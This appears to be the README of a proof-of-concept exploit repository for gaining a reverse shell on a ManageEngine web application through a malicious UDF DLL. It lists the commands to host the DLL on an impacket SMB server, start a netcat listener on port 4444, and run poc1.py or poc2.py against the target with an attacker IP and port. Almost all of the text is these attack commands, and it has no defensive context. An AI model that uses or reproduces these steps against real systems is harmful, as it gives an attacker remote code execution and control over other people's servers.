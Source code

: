 # UDF Reverse Shell

## How to use

### poc1.py
1. Start a SMB server and host a share (_test_) in the same directory as the `udf_rev_shell.dll` file:
```bash
impacket-smbserver -smb2support test .
```

2. Start a netcat listener:
```bash
nc -lnvp 4444
```

3. Run the proof of concept (poc1.py) using Python2 and specify the target ManageEngine web application and listener parameters:
```bash
python2 poc1.py https://manageengine:8443 192.168.45.211 4444
```


### poc2.py
1. Start a netcat listener:
```bash
nc -lnvp 4444
```

2. Run the proof of concept (poc2.py) using Python2 and specify the target ManageEngine web application and listener parameters. Ensure that the `udf_rev_shell.dll` file is in the same working directory as `poc2.py`:
```bash
python2 poc2.py https://manageengine:8443 192.168.45.211 4444
```
